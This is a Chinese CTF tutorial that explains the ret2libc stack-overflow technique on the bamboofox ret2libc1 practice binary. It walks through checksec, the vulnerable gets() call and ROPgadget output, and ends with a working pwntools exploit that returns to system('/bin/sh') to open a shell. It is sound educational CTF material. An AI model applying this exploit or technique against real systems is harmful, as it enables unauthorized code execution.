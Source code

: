 # Pwn-ROP-ret2libc-初级


# ret2libc原理

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 **plt** 处或者函数的具体位置 (即函数对应的 **got** 表项的内容)。一般情况下，我们会选择执行 **system("/bin/sh")**，故而此时我们需要知道 system 函数的地址。（当然同时还要知道字符串/bin/sh的地址）

# 实例

> 初级实例中，在plt段可以直接找到system函数，同时在.data段（准确的说是.rodata段）可以找到/bin/sh字符串

这里我们以 bamboofox 中 ret2libc1为例

点击下载: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

首先，我们可以检查一下程序的安全保护

```
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，**开启了 NX 保护**。下面来看一下程序源代码，确定漏洞位置

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在。

```
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行 system 函数。相应的 payload 如下

```
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb' 作为虚假的地址，其后参数对应的参数内容。

这个例子相对来说简单，同时提供了 system 地址与 /bin/sh 的地址，但是大多数程序并不会有这么好的情况。

> 注意：如果开启了NX保护，题目中一般会给出system，无论是在libc中还是plt中还是text中，如果没开启NX保护，基本上需要自己写入shellcode


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/pwn-rop-ret2libc-%E5%88%9D%E7%BA%A7/  

